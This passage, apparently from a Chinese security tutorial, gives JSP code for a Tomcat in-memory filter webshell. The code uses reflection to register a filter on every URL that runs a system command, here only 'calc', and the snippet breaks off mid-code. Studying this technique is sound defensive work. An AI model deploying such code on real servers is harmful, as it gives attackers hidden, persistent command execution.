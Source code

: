
9. 到此，所有前置条件基本准备完成，其实既然知道要向哪里塞入什么数据，那么可以都用反射。最终写的木马如下：
      ```jsp
      <%@ page import="javax.servlet.annotation.WebFilter" %>
      <%@ page import="java.io.IOException" %>
      <%@ page import="java.lang.reflect.Field" %>
      <%@ page import="org.apache.catalina.core.ApplicationContext" %>
      <%@ page import="org.apache.catalina.core.StandardContext" %>
      <%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
      <%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
      <%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
      <%@ page import="java.lang.reflect.InvocationTargetException" %>
      <%@ page import="javax.naming.NamingException" %>
      <%@ page import="java.lang.reflect.Constructor" %>
      <%@ page import="java.util.HashMap" %>
      <%@ page import="org.apache.catalina.Context" %><%--
        Created by IntelliJ IDEA.
        User: hasee
        Date: 2023/5/5
        Time: 9:58
        To change this template use File | Settings | File Templates.
      --%>
      <%@ page contentType="text/html;charset=UTF-8" language="java" %>
      <html>
      <head>
          <title>Title</title>
      </head>
      <body>
      <%!
          @WebFilter(urlPatterns = "/*")
          public class MemoryTrojanFilter implements Filter {
              @Override
              public void init(FilterConfig filterConfig) throws ServletException {
              }
      
              @Override
              public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                  Runtime.getRuntime().exec("calc");
                  chain.doFilter(request, response);
              }
      
              @Override
              public void destroy() {
              }
          }
      %>
      <%
          // 动态注册 Filter
          // 1. 获取 StandardContext
          ServletContext servletContext = request.getServletContext();
          // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
          Field applicationContextField = servletContext.getClass().getDeclaredField("context");
          applicationContextField.setAccessible(true);
          // 通过反射拿到 servletContext 具体的 ApplicationContext
          ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
          // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
          Field standardContextField = applicationContext.getClass().getDeclaredField("context");
          standardContextField.setAccessible(true);
          StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
          // 2. 向 standardContext 的 filterConfigs、filterDefs、filterMaps 中插入值
          // 2.1.1 先创建 filterDef
          FilterDef filterDef = new FilterDef();